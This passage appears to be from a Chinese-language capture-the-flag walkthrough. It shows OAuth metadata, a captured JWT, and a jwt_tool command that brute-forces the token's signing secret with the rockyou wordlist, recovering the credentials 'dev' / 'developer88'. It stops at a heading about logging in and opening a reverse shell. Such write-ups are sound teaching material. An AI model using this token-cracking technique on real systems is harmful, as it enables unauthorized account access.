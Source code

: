 ```json
    ],
    "code_challenge_methods_supported": [
        "plain",
        "S256"
    ],
    "grant_types_supported": [
        "authorization_code",
        "refresh_token"
    ]
}
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541071.png" alt="image-20240324125943279" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541072.png" alt="image-20240324130109986" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541073.png" alt="image-20240324130248375" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541074.png" alt="image-20240324130334109" style="zoom: 33%;" />

### jwt爆破

找到`jwt_token`，解密一下：

```bash
jwt_token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcwNzE0ODY1OCwianRpIjoiNjAwMWI5N2YtZjllOC00YTIxLThlYWMtYmE5NWEwY2Y4MDQ4IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldiIsIm5iZiI6MTcwNzE0ODY1OCwiY3NyZiI6ImFkZjdmOTBiLWQ2NDctNDljZS1hNGRhLTQ3NDI1OWZkYzcyYyIsImV4cCI6MTcwNzE0OTI1OCwidXNlcm5hbWUiOiJkZXYifQ.tRZPFKRfJV7T-EHyQiBFqDEE1hl83MyCGtaBpSMwU_o"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541075.png" alt="image-20240324130540683" style="zoom:50%;" />

发现了`username`，尝试使用`john`爆破一下：

```bash
python jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcwNzE0ODY1OCwianRpIjoiNjAwMWI5N2YtZjllOC00YTIxLThlYWMtYmE5NWEwY2Y4MDQ4IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldiIsIm5iZiI6MTcwNzE0ODY1OCwiY3NyZiI6ImFkZjdmOTBiLWQ2NDctNDljZS1hNGRhLTQ3NDI1OWZkYzcyYyIsImV4cCI6MTcwNzE0OTI1OCwidXNlcm5hbWUiOiJkZXYifQ.tRZPFKRfJV7T-EHyQiBFqDEE1hl83MyCGtaBpSMwU_o -C -d /usr/share/wordlists/rockyou.txt
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403241541076.png" alt="image-20240324133645699" style="zoom: 33%;" />

```apl
dev
developer88
```

### 登录并反弹shell

有了账号密码，尝试登录：
